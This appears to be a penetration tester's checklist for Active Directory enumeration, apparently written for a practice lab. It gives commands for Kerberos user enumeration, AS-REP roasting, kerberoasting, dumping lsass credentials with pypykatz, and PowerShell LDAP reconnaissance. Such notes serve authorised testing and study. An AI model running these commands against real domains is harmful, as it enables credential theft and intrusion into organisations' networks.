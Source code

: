 # Windows Active Directory Enumeration.

#### check-list
- [PayloadAllTheThings](https://gitlab.com/pentest-tools/PayloadsAllTheThings/-/blob/6bcd2e8a6a39d26a547a70d83dfebef4c2c6f801/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- [S1ckB0y1337](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
- check ldap for system/users informations
- check smb for shares
- check rpcbind for system/users informations
- check impacket examples scripts
- generate usernames from `fname lname` wordlist [namemash.py](https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py)
```bash
# enuemrate valid users through kerberos
./kerbrute
# enumerate users do not require Kerberos preauthentication
GetNPUsers.py EGOTISTICAL-BANK.local/ -no-pass -usersfile usernames
# request other users krbt hash if you have a user cerdentials
GetUserSPNs.py
# runas user in a domain using credentials, or use bloodhound-python
runas /netonly /user:support cmd.exe
```
#### notes 
- use `runas` to connect to domain using user credentials and run bloodhound or use the credentials in bloodhoud from python
- lsass stores credentials that can be dumped using pypykatz

```powershell
# enumerate domain users and groups
net user /domain
net group /domain
# find PDC
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
([adsi]'').distinguishedName
```

```powershell
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"

$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)

$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.FindAll()
```